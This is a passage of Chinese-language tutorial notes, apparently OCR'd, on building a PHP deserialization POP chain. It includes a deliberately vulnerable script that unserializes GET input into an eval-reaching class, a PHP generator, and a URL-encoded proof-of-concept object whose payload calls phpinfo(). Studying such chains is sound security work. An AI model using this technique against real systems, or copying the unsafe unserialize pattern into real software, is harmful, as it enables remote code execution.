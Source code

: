     function __construct() {
        $this->ClassObj = new normal();
    }

    function __destruct() {
        $this->ClassObj->action();
    }
}

class normal {
    function action() {
        echo "hello";
    }
}

class evil {
    private $data;
    function action() {
        eval($this->data);
    }
}

unserialize($_GET['d']);
?>


lemon这个类本来是调用，normal类的，但是现在action方法在evil类里面也有，所以可以构造pop链，调用evil类中的action方法。
<?php
class lemon {
    protected $ClassObj;
    function __construct() {
        $this->ClassObj = new evil();
    }
}
class evil {
    private $data = "phpinfo();";
}
echo urlencode(serialize(new lemon()));
echo "\n\r";
?>

注意的是，protected $ClassObj = new evil();是不行的，还是通过__construct来实例化。
生成poc:
O%3A5%3A%22lemon%22%3A1%3A%7Bs%3A11%3A%22%00%2A%00ClassObj%22%3BO%3A4%3A%22evil%22%3A1%3A%7Bs%3A10%3A%22%00evil%00data%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D%7D

获取已经包含的文件：
get_included_files()
获取已经定义的类：
get_declared_classes()
加载所有类
__autoload()
}

}
